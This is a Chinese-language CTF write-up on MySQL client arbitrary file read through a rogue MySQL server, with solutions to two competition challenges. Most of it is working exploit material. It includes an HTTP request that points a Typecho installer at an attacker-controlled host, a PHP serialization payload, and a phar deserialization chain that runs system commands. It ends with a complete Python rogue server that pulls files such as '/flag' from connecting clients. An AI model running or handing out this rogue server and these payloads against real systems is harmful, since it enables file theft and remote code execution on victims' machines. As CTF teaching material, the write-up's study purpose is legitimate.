




# mysql 任意文件读取

by Firebasky

>这个东西比较有意思，昨天比赛遇到了，然后就重新去学习了一下，并且整理。。。
>
>推荐：https://lorexxar.cn/2020/01/14/css-mysql-chain/

也就是说要利用这个漏洞需要给mysql client一个greeting包然后等待client端发送一个查询包，之后就可以回复一个file transfer包了。可能说的不详细就那自己去看文章吧。。。。

## Poc

1、回复mysql client一个greeting包
2、等待client端发送一个查询包

3、回复一个file transfer包

## 影响范围

### 底层应用

在这个漏洞到底有什么影响的时候，我们首先必须知道到底有什么样的客户端受到这个漏洞的威胁。

- mysql client (pwned)
- php mysqli (pwned，fixed by 7.3.4)
- php pdo (默认禁用)
- python MySQLdb (pwned)
- python mysqlclient (pwned)
- java JDBC Driver (pwned，部分条件下默认禁用)
- navicat （pwned)

## CTF题

### 2021 qwnt / Give_me_your_0day

新版本操作一个文件包含漏洞


思路一：包含pearcmd文件执行**config-create**命令

思路二：既然可以连接数据库，那会不会存在一个任意文件读取漏洞？是的存在。 大哥Dem0思路。

不过就不是Pdo_Mysql了因为上面说了php pdo (默认禁用)所以使用的是**Mysqli**可以成功利用。

exp

```
POST /install.php?config= HTTP/1.1
Host: 121.36.229.59:32767
Content-Length: 304
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Origin: http://121.36.229.59:32767
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://121.36.229.59:32767/install.php?config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __typecho_lang=zh_CN
Connection: close

dbAdapter=Mysqli&dbHost={evilvpsip}&dbPort={port}&dbUser=root&dbPassword=&dbDatabase=typecho&dbCharset=utf8&dbPrefix=typecho_&userUrl=http%3A%2F%2F121.36.229.59%3A32767&userName=admin&userPassword=&userMail=webmaster%40yourdomain.com&action=config
```

跟一下就欧克了。。。



### 2020 /级客 0解的一个web

还是考察了一个mysql任意文件读取。不过新东西就是连接之后没有查询操作，就返回不了文件。

不过在mysqliTool中有一个配置



参考：http://www.lvesu.com/blog/php/mysqli.options.php



所以我们可以自己配置。

EXP  注意php的版本！！！

```PHP
<?php
class mysqliConfig
{
    protected $host = '127.0.0.1';#evil vps
    protected $port = 3307;# ip
    protected $unixSocket = '';
    protected $dbname = '';
    protected $charset = 'utf8';
    protected $username = 'flag';
    protected $password = 'test';
    protected $options = array(MYSQLI_INIT_COMMAND=>'select 1;');#连接成功执行的sql语句
}
class route
{
    public $args;
    protected $class;
    public function __construct($mysqliConfig)
    {
        $this->args = $mysqliConfig;
        $this->class='mysqli';
    }
}
$exp=new route(new mysqliConfig());
echo urlencode(serialize(array($exp,"startTool")));
```

**下面内容是新利用思路。。。**

## 任意文件读 to 反序列化

既然可以存在一个读文件，那么如果使用phar协议去读文件不是就可以反序列化了? 确实是这样的。

原理：https://lorexxar.cn/2020/01/14/css-mysql-chain/#%E6%8B%93%E5%B1%95%EF%BC%9F2RCE%EF%BC%81

```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system("calc");
    }
}


@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a "."__HALT_COMPILER(); ?>"); //设置stub
$o = new A();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system("calc");
    }
}
$m = mysqli_init();
mysqli_options($m,MYSQLI_INIT_COMMAND, "select 1;");//连接成功执行的sql语句
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, '127.0.0.1', '', '', '', 3307);
//$p = mysqli_query($m, 'select 1;');//需要查询
// file_get_contents('phar://./phar.phar');
```

exp

```python

from socket import AF_INET, SOCK_STREAM, error
from asyncore import dispatcher, loop as _asyLoop
from asynchat import async_chat
from struct import Struct
from sys import version_info
from logging import getLogger, INFO, StreamHandler, Formatter

_rouge_mysql_sever_read_file_result = {

}
_rouge_mysql_server_read_file_end = False


def checkVersionPy3():
    return not version_info < (3, 0)


def rouge_mysql_sever_read_file(fileName, port, showInfo):
    if showInfo:
        log = getLogger(__name__)
        log.setLevel(INFO)
        tmp_format = StreamHandler()
        tmp_format.setFormatter(Formatter("%(asctime)s : %(levelname)s : %(message)s"))
        log.addHandler(
            tmp_format
        )

    def _infoShow(*args):
        if showInfo:
            log.info(*args)

    # ================================================
    # =======No need to change after this lines=======
    # ================================================

    __author__ = 'Gifts'
    __modify__ = 'Morouu'

    global _rouge_mysql_sever_read_file_result

    class _LastPacket(Exception):
        pass

    class _OutOfOrder(Exception):
        pass

    class _MysqlPacket(object):
        packet_header = Struct('<Hbb')
        packet_header_long = Struct('<Hbbb')

        def __init__(self, packet_type, payload):
            if isinstance(packet_type, _MysqlPacket):
                self.packet_num = packet_type.packet_num + 1
            else:
                self.packet_num = packet_type
            self.payload = payload

        def __str__(self):
            payload_len = len(self.payload)
            if payload_len < 65536:
                header = _MysqlPacket.packet_header.pack(payload_len, 0, self.packet_num)
            else:
                header = _MysqlPacket.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

            result = "".join(
                (
                    header.decode("latin1") if checkVersionPy3() else header,
                    self.payload
                )
            )

            return result

        def __repr__(self):
            return repr(str(self))

        @staticmethod
        def parse(raw_data):
            packet_num = raw_data[0] if checkVersionPy3() else ord(raw_data[0])
            payload = raw_data[1:]

            return _MysqlPacket(packet_num, payload.decode("latin1") if checkVersionPy3() else payload)

    class _HttpRequestHandler(async_chat):

        def __init__(self, addr):
            async_chat.__init__(self, sock=addr[0])
            self.addr = addr[1]
            self.ibuffer = []
            self.set_terminator(3)
            self.stateList = [b"LEN", b"Auth", b"Data", b"MoreLength", b"File"] if checkVersionPy3() else ["LEN",
                                                                                                           "Auth",
                                                                                                           "Data",
                                                                                                           "MoreLength",
                                                                                                           "File"]
            self.state = self.stateList[0]
            self.sub_state = self.stateList[1]
            self.logined = False
            self.file = ""
            self.push(
                _MysqlPacket(
                    0,
                    "".join((
                        '\x0a',  # Protocol
                        '5.6.28-0ubuntu0.14.04.1' + '\0',
                        '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00',
                    )))
            )

            self.order = 1
            self.states = [b'LOGIN', b'CAPS', b'ANY'] if checkVersionPy3() else ['LOGIN', 'CAPS', 'ANY']

        def push(self, data):
            _infoShow('Pushed: %r', data)
            data = str(data)
            async_chat.push(self, data.encode("latin1") if checkVersionPy3() else data)

        def collect_incoming_data(self, data):
            _infoShow('Data recved: %r', data)
            self.ibuffer.append(data)

        def found_terminator(self):
            data = b"".join(self.ibuffer) if checkVersionPy3() else "".join(self.ibuffer)
            self.ibuffer = []

            if self.state == self.stateList[0]:  # LEN
                len_bytes = data[0] + 256 * data[1] + 65536 * data[2] + 1 if checkVersionPy3() else ord(
                    data[0]) + 256 * ord(data[1]) + 65536 * ord(data[2]) + 1
                if len_bytes < 65536:
                    self.set_terminator(len_bytes)
                    self.state = self.stateList[2]  # Data
                else:
                    self.state = self.stateList[3]  # MoreLength
            elif self.state == self.stateList[3]:  # MoreLength
                if (checkVersionPy3() and data[0] != b'\0') or data[0] != '\0':
                    self.push(None)
                    self.close_when_done()
                else:
                    self.state = self.stateList[2]  # Data
            elif self.state == self.stateList[2]:  # Data
                packet = _MysqlPacket.parse(data)
                try:
                    if self.order != packet.packet_num:
                        raise _OutOfOrder()
                    else:
                        # Fix ?
                        self.order = packet.packet_num + 2
                    if packet.packet_num == 0:
                        if packet.payload[0] == '\x03':
                            _infoShow('Query')

                            self.set_terminator(3)
                            self.state = self.stateList[0]  # LEN
                            self.sub_state = self.stateList[4]  # File
                            self.file = fileName.pop(0)

                            # end
                            if len(fileName) == 1:
                                global _rouge_mysql_server_read_file_end
                                _rouge_mysql_server_read_file_end = True

                            self.push(_MysqlPacket(
                                packet,
                                '\xFB{0}'.format(self.file)
                            ))
                        elif packet.payload[0] == '\x1b':
                            _infoShow('SelectDB')
                            self.push(_MysqlPacket(
                                packet,
                                '\xfe\x00\x00\x02\x00'
                            ))
                            raise _LastPacket()
                        elif packet.payload[0] in '\x02':
                            self.push(_MysqlPacket(
                                packet, '\0\0\0\x02\0\0\0'
                            ))
                            raise _LastPacket()
                        elif packet.payload == '\x00\x01':
                            self.push(None)
                            self.close_when_done()
                        else:
                            raise ValueError()
                    else:
                        if self.sub_state == self.stateList[4]:  # File
                            _infoShow('-- result')
                            # fileContent
                            _infoShow('Result: %r', data)
                            if len(data) == 1:
                                self.push(
                                    _MysqlPacket(packet, '\0\0\0\x02\0\0\0')
                                )
                                raise _LastPacket()
                            else:
                                self.set_terminator(3)
                                self.state = self.stateList[0]  # LEN
                                self.order = packet.packet_num + 1

                            global _rouge_mysql_sever_read_file_result
                            _rouge_mysql_sever_read_file_result.update(
                                {self.file: data.encode() if not checkVersionPy3() else data}
                            )

                            # test
                            # print(self.file + ":\n" + content.decode() if checkVersionPy3() else content)

                            self.close_when_done()

                        elif self.sub_state == self.stateList[1]:  # Auth
                            self.push(_MysqlPacket(
                                packet, '\0\0\0\x02\0\0\0'
                            ))
                            raise _LastPacket()
                        else:
                            _infoShow('-- else')
                            raise ValueError('Unknown packet')
                except _LastPacket:
                    _infoShow('Last packet')
                    self.state = self.stateList[0]  # LEN
                    self.sub_state = None
                    self.order = 0
                    self.set_terminator(3)
                except _OutOfOrder:
                    _infoShow('Out of order')
                    self.push(None)
                    self.close_when_done()
            else:
                _infoShow('Unknown state')
                self.push('None')
                self.close_when_done()

    class _MysqlListener(dispatcher):
        def __init__(self, sock=None):
            dispatcher.__init__(self, sock)

            if not sock:
                self.create_socket(AF_INET, SOCK_STREAM)
                self.set_reuse_addr()
                try:
                    self.bind(('', port))
                except error:
                    exit()

                self.listen(1)

        def handle_accept(self):
            pair = self.accept()

            if pair is not None:
                _infoShow('Conn from: %r', pair[1])
                _HttpRequestHandler(pair)

                if _rouge_mysql_server_read_file_end:
                    self.close()

    _MysqlListener()
    _asyLoop()
    return _rouge_mysql_sever_read_file_result


if __name__ == '__main__':

    for name, content in rouge_mysql_sever_read_file(fileName=["phar://E:\phar.phar", "/flag"], port=3307,showInfo=True).items():
        print(name + ":\n" + content.decode())
```



## 简单的总结

简单的说如果2021 qwnt / Give_me_your_0day这个题存在一个文件上传那么就可以直接rce!!!
